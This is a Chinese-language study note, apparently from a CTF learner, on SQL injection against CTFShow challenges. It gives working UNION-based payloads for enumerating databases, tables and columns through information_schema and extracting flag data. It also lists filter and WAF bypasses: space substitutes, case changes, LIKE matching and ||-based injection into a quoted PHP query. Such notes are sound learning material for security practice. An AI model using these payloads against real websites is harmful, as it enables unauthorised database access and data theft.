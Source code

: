 # sql注入学习1

<br>


### 第一步：判断注入类型

<br>

* 数字型: 使用 1 and 1=2和1 and 1=1来判断(如果没报错，那就不是数字型注入)
* 字符型： 试试可能的闭合符   '    "    ')    ")

<br>

### 第二步: 联合查询前写入语句

<br>

* 可能的闭合符   '  "  ')  ")
* 不需要的语句可以用注释符号 --+  #  %23 --%0c注释掉
* 使用group by 或者Order by 确定数据列数量:id=-2'group by 4--+
* 查找回显位:使你提交的结果能够在页面上给你体现出来 使用语句?id=-2'union select 1,2,3--+(回显的内容的数字就可以知道是哪个位置了)

<br>

### 第三步: 查询库 表 列

* 查找当前库名:?id=-2'union select 1,2,database()--+ (三号位就是苦库的名）
* 查找当前库下所有的表名:id=-2'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+(这段话用于在总表information_schema中查找database()的库所对应的table_name，也就是显示这个库中所有的表名。而group_concat则可以把这些表拼接起来) 
* 查找所有表（可能会有一堆乱七八糟的东西）：?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables--+
* 查看名为flag的表所在的库名：?id=-1' union select 1,2,table_schema from information_schema.columns where table_name="flag"--+
* 查找当前库列名:id=-2'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() --+(原理几乎同上)（另外写法：?id=-2 union select 1,group_concat(column_name),3 from information_schema.columns ctfshow --+
）   这里可以进行替换就能查找指定库的列名
* 查找名为ctfshow的库下的flag表的列：?id=-1' union select 1,id,flag from ctfshow.flag--+
### 第四步：查询数据库
* -2'union select * from ctfshow_web.ctfshow_user where username = 'flag' --+ （在名为ctfshow_web的库里找到名为ctfshow_user的表，并且从中寻找列名username的值为flag的数据）

<br>

## 特别的绕过方式
* replace(username,'f','g'),使用改名使得flag绕过preg_match(只能对返回值过滤进行绕过)
* 空格绕过： %0a %0d %0c /**/ + `
* 换行绕过空格： %0b（用于空格绕过都不成功的情况）

<br>

### 一些更简洁的可以参考的playload
* 1'%0aunion%0asElect%0a1,2,%0agroup_concat(password)%0afrom%0actfshow_user%23
* -1'%0cor%0cusername='flag


<br>

### waf绕过
* 大小写
* 模糊搜索：在where处这样写 where pass like'%c%'(意思是在pass列中模糊搜索c开头的数据，其中的%可用%25替代)



<br>


### 基于原题下手的绕过
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
* 这段代码我们可以利用拼接来进行绕过
* 管道符-1'||username='flag
* 管道符-1'||(username)like'%fla%

### 布尔盲注：看脚本（用到where和select）


<br>

### regexp盲注：看脚本（where和select被过滤了可以用group by pass having pass regexp）

<br>

ctfshow-web184

<br>